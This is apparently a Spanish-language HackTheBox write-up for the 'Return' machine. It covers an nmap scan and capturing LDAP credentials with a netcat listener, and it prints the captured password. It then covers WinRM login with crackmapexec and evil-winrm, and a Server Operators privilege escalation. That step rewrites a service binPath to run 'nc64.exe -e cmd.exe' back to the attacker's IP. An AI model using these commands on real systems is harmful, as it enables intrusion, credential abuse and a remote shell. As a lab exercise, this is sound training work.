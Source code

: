 # Return-HTB

## NMAP

```ruby
   │ # Nmap 7.94SVN scan initiated Tue Mar 12 23:31:16 2024 as: nmap -sVC -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49673,49674,49675,49676,49679,49694 -oN Scan 10.129.247.90
   2   │ Nmap scan report for 10.129.247.90
   3   │ Host is up (0.16s latency).
   4   │ 
   5   │ PORT      STATE SERVICE       VERSION
   6   │ 53/tcp    open  domain        Simple DNS Plus
   7   │ 80/tcp    open  http          Microsoft IIS httpd 10.0
   8   │ | http-methods: 
   9   │ |_  Potentially risky methods: TRACE
  10   │ |_http-server-header: Microsoft-IIS/10.0
  11   │ |_http-title: HTB Printer Admin Panel
  12   │ 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-13 03:50:02Z)
  13   │ 135/tcp   open  msrpc         Microsoft Windows RPC
  14   │ 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  15   │ 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
  16   │ 445/tcp   open  microsoft-ds?
  17   │ 464/tcp   open  kpasswd5?
  18   │ 593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  19   │ 636/tcp   open  tcpwrapped
  20   │ 3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
  21   │ 3269/tcp  open  tcpwrapped
  22   │ 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  23   │ |_http-title: Not Found
  24   │ |_http-server-header: Microsoft-HTTPAPI/2.0
  25   │ 9389/tcp  open  mc-nmf        .NET Message Framing
  26   │ 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  27   │ |_http-server-header: Microsoft-HTTPAPI/2.0
  28   │ |_http-title: Not Found
  29   │ 49664/tcp open  msrpc         Microsoft Windows RPC
  30   │ 49665/tcp open  msrpc         Microsoft Windows RPC
  31   │ 49666/tcp open  msrpc         Microsoft Windows RPC
  32   │ 49667/tcp open  msrpc         Microsoft Windows RPC
  33   │ 49673/tcp open  msrpc         Microsoft Windows RPC
  34   │ 49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  35   │ 49675/tcp open  msrpc         Microsoft Windows RPC
  36   │ 49676/tcp open  msrpc         Microsoft Windows RPC
  37   │ 49679/tcp open  msrpc         Microsoft Windows RPC
  38   │ 49694/tcp open  msrpc         Microsoft Windows RPC
  39   │ Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
  40   │ 
  41   │ Host script results:
  42   │ | smb2-security-mode: 
  43   │ |   3:1:1: 
  44   │ |_    Message signing enabled and required
  45   │ | smb2-time: 
  46   │ |   date: 2024-03-13T03:51:02
  47   │ |_  start_date: N/A
  48   │ |_clock-skew: 18m35s
  49   │ 
  50   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  51   │ # Nmap done at Tue Mar 12 23:32:39 2024 -- 1 IP address (1 host up) scanned in 82.40 seconds


```

Desde aqui ya te das cuenta que es un AD primer paso conseguir credenciales validas.

![image](https://github.com/gecr07/Return-HTB/assets/63270579/5294ce5e-4b5f-41ca-84e1-f68ed839302a)

Para ver si aluna conexion llega SIEMPRE el nc

```
nc -lvnp 389

```

Lo que nos da ya un usuario valido y la contraseña.

```
connect to [10.10.14.146] from (UNKNOWN) [10.129.247.90] 62505
0*`%return\svc-printer
                      1edFg43012!!


```

Probamos que el usuario y pass sea valido. Y ademas checamos el winrm que vemos que tenemos el puerto abierto

```
crackmapexec smb 10.129.247.90 -u 'svc-printer' -p '1edFg43012!!'

crackmapexec winrm 10.129.247.90 -u 'svc-printer' -p '1edFg43012!!' 

```

Si nos pone P0wned entonces tenemos posibilidad de entrar por Winrm.

```
evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.95.241 
```

## Prives

Entro a la maquina intento enumerar y me doy cuenta queno hay mucho sin embargo este usuario pertenece al grupo priviligeado de Server Operators el cual tiene entre muchas capacidades la de manipular servicios por  lo que vamos  ponerle nuestro nc

```
sc.exe config VMTools binPath="C:\Windows\Temp\privesc\nc64.exe -e cmd.exe 10.10.14.146"
sc.exe stop VMTools
sc.exe start VMTools

```





















































